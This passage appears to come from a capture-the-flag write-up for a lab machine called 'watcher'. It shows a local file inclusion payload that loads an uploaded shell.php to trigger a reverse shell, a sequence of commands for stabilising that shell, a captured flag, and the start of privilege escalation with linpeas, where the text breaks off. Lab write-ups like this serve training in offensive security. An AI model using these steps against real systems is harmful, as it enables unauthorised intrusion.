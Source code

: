 Now, let's use the LFI to access the file, but first, we need to set up our listener, once we've done it, let's submit this:

```
post=/home/ftpuser/ftp/files/shell.php
```

We can see the connection in our shell:

![Pasted image 20250326154710.png](../../IMAGES/Pasted%20image%2020250326154710.png)

Let's proceed with PrivEsc.




# PRIVILEGE ESCALATION
---


First thing to do is to get a stable shell:


1. /usr/bin/script -qc /bin/bash /dev/null
2. CTRL + Z
3. stty raw -echo; fg
4. reset xterm
5. export TERM=xterm
6. export BASH=bash

![Pasted image 20250326154811.png](../../IMAGES/Pasted%20image%2020250326154811.png)

Now, with the shell, we can start looking around, for example, we can find the third flag here:

```
www-data@watcher:/var/www/html/more_secrets_a9f10a$ cat flag_3.txt
FLAG{lfi_what_a_guy}
```

Let's get linpeas and check for any way to get into other user:
